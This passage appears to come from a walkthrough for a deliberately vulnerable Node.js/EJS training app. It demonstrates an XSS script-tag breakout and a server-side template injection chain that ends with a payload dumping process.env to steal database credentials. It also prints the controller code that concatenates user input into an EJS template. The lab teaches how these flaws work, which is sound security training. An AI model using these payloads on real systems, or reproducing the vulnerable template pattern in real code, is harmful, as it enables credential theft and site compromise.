 In this case, the application is using `<%-JSON.stringify("{username": xss3})%>` to create JSON object with user supplied input it is using ejs raw output syntax `<%-` to create a valid JSON object it does not use `<%=` output syntax because it will also encode the double quotes but JSON.stringify will escape double quotes that means we have to find a way to break out of the double quote to do that we will use this payload `</script><script>alert(1)</script>`.

## 6. SSTI

Application is directly concatenating user supplied input to the template that can lead to SSTI your goal is to steal the database credentials.

### Exploit

1. Go to **`/ssti?path=helloworld`**.
2. You will notice that `helloworld` is displayed in the response, now try ssti polyglot payload `${{<%25[%25'"}}%25\.` in the path parameter you will get the following error message which suggests that template engine uses `<%, %>` for opening and closing tag one such template engine is ejs.
   ```
   Error: Could not find matching close tag for "<%".
   ```
3. Let's perform simple multiply using following payload.
  ```
  <%25= 7*7%25>
  ```
4. And we get `49` in the response.
5. Time to get database credentials from database for that we will use the following payload
```
<%25=JSON.stringify(process.env)%25>
```


### Vulnerable Code

**Request method, endpoint, query parameter**

```
Request method: GET
Endpoint: /ssti
query parameter: path
```

**Route: /routes/app.js**
```js
router.get('/ssti', authenticateToken, vuln_controller.ssti);
```
**Controller: /controllers/vuln_controller.js**

```js
function notFoundPage(input) {
    if (input == undefined) input = "";
    var template = `<!DOCTYPE html><html><body>
    <h1>Error: 404</h1>
    <b><p>Not Found: /ssti/`+ input + `</p></b></body></html>`
    var html = ejs.render(template, { name: "Venus" })
    return html;
}

// ssti controller
const ssti = (req, res) => {
    const user_supplied_path = req.query.path;
    const html = notFoundPage(user_supplied_path)
    res.send(html).status(404);
}
```
